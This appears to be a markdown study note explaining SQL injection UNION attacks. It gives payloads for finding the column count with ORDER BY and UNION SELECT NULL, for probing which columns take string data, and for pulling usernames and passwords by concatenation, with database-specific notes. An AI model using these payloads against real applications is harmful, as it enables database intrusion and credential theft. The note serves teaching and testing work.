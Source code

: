 # SQLi UNION attacks
* Same Number of Columns: 
  * The original query and the injected query must return the same number of columns. If the original query returns, for example, three columns, your injected query should also produce three columns.
* Compatible Data Types:
  * The data types of corresponding columns in the original and injected queries must be compatible. This ensures that the data from both queries can be successfully combined. For instance, if a column in the original query has text data, the corresponding column in the injected query should also have text data.
# How to determine the number of columns?
1. Inject an **ORDER BY** clause with different numeric values (column indices) until an error occurs.
   * Example: \
   `' ORDER BY 1-- ` \
   `' ORDER BY 2--`, etc. \
  Output: `The ORDER BY position number 3 is out of range of the number of items in the selected list`
2.  Employ a series of **UNION SELECT** payloads with varying numbers of null values to identify the correct number of columns in the result set.
    * Example: \
    `' UNION SELECT NULL --` \
    `' UNION SELECT NULL, NULL--`, etc. \
    Output: `All queries combined using a UNION, INTERSECT or EXCEPT operator must have an equal number of expressions in their target lists.`
    * The use of NULL values in the injected **SELECT** query is strategic. It ensures compatibility with various data types, maximizing the chances of success when the column count is correct. 
    * However, the application's response may vary, In case of nulls matches the number of columns, the database returns an additional row in the result set with null values in each column.
* **NOTE**: In the context of Oracle databases, it is a requirement that every **SELECT** query includes the **FROM** keyword and specifies a valid table. Fortunately, Oracle provides a built-in table called **dual**, which serves this purpose. Therefore, injected queris on Oracle db typically take the following form: \
` UNION SELECT NULL FROM DUAL--` \
Also it's important to note that on MySQL databases, the `--` comment sequence must be followed by a space. Alternatively, the `#` character can be used to identify a comment.
# How to identify columns in the original query that can hold string data?
#### Once the number of required columns is determined, each column is probed by submitting `UNION SELECT` payloads with string values.
* Example: If the original query returns four columns, \
`' UNION SELECT  'g', NULL, NULL, NULL--` \
`' UNION SELECT  NULL, 'g', NULL, NULL--` \
`' UNION SELECT  NULL, NULL, 'g', NULL--` \
`' UNION SELECT  NULL, NULL, NULL, 'g'--` 
* If a database error occurs, such as conversion error, it means that the column's data type is not compatible with string data.
# String concatenation
#### When a query only returns a single column, it's possible to retrieve multiple values by concatenating them together and even include a separator to distinguish the combined values
* Example: On postgres we could submit the following input \
`UNION SELECT username ||'~'|| password FROM users`
* Output : `admin~~1337`
#### The double-pipe sequence `||` is a string concatenation operator on Oracle and other databases and the '~' char is used to separate the data.
